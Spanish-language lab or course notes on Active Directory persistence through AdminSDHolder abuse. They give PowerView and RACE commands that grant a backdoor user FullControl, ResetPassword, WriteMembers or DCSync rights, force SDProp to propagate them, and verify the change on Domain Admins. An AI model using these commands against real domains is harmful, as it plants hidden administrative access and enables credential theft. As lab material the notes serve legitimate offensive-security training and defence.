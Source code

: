 Abuso bien conocido de algunos de los grupos protegidos: todos los siguientes pueden iniciar sesión localmente en DC

![/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%205.png](/assets/images/images_AD/Active%20Directory%20Domain%20Dominance/Untitled%205.png)

- Con privilegios de DA (control total / permisos de escritura) en el objeto AdminSDHolder, se puede usar como mecanismo  puerta trasera / persistencia
agregando un usuario con permisos completos (u otros permisos interesantes) al objeto AdminSDHolder.
- En 60 minutos (cuando se ejecuta SDPROP), el usuario se agregará con Control total al AC de grupos como Administradores de dominio sin ser realmente miembro de él.

Agregue permisos de FullControl para un usuario al AdminSDHolder usando PowerView como DA:

`Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose`

Usando AD modulo y RACE toolkit:

([https://github.com/samratashok/RACE](https://github.com/samratashok/RACE))

`Set-ADACL -DistinguishedName 'DC=us,DC=techcorp,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose`

Otros permisos interesantes (ResetPassword, WriteMembers) para un usuario al AdminSDHolder:

`Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights ResetPassword -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose`

`Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights WriteMembers -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose`

Ejecute SDProp manualmente usando Invoke-SDPropagator.ps1 desde el directorio de Herramientas:

`Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose`

Para maquinas pre-Server 2008:

`Invoke-SDPropagator -taskname FixUpInheritance -
timeoutMinutes 1 -showProgress -Verbose`

Verifique el permiso de administradores de dominio - PowerView como usuario normal:

`Get-DomainObjectAcl -Identity 'Domain Admins' -
ResolveGUIDs | ForEach-Object {$_ | Add-Member
NoteProperty 'IdentityName' $(Convert-SidToName
$_.SecurityIdentifier);$_} | ?{$_.IdentityName -match
"studentuser1"}`
